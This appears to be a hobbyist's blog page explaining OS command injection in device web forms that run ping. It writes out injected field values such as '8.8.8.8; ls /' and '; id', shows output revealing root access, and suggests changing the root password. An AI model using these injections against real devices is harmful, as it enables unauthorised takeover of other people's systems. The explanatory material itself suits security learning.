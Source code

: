 ```yaml
---
title: Hacking into things
tags:
  - linux
  - hacking
  - programming
created: 2023-07-13T19:29:40+02:00
updated: 2023-08-27T22:01:32+02:00
enableToc: true
---
```


This has been something that I've had an interest for for many years and have dabbled in every now and then when I had the chance.

Every now and then you get a device that you soon figure out is running a flavour of Linux and you start wondering, can I get root access to it? 🤔
You start poking around and after a little while you find a HTML form that is not behaving as it should.

## HTML Forms
### Ping prompts
Ping prompts might be the easiest to see why it could be so easy to break.

In the form you might see something along the lines of an `Address` field and a `Submit` button.  
You enter in the address and press the button, a few seconds later you get back a response along the lines of:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.1 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=26.1 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.8 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 26.142/26.944/27.731/0.569 ms
```

If you're familiar with Linux you quickly realize that this is the output of `iputils-ping`.  
What you should also realize is that this command is being called from the application running the webserver.  
With this information we can make some assumptions.

The command to get the exact output (except for the latency times and packet loss if any) is the following:
```
$ ping -c 4 8.8.8.8
```
From this we can extrapolate that the `Address` field from the form is populating the address used by the ping command.

Lets assume the command is run as: `ping -c 4 ${address}`  
This shows that the address is a variable and is populate based on what was entered in the `Address` field.

Now, what would happen if we instead input `8.8.8.8; ls /` in the `Address` field?  
The variable would then be expanded to `ping -c 4 8.8.8.8; ls /` and give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=26.0 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.3 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=28.9 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.995/27.524/28.853/1.037 ms
bin   dev  home  lib64       media  opt   root  sbin  sys  usr
boot  etc  lib   lost+found  mnt    proc  run   srv   tmp  var
```
Notice the directory listing at the bottom.

Now for the final check, instead of listing the directory, we check which user is being used to run the webserver and as an extension the commands.  
This we can achieve with the `id` command and would look like this: `; id`.  
The command will be expanded to `ping -c 4 8.8.8.8; id` and would give us the following result:
```
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=54 time=27.7 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=54 time=27.9 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=54 time=26.0 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 25.976/27.351/27.862/0.796 ms
uid=0(root) gid=0(root) groups=0(root)
```

This shows us that the root user is running the commands and we're already in.  
The only thing to do is to change the password of the root user.  

What we've done in this example is what's called Remote Code Execution (RCE) or Code Injection.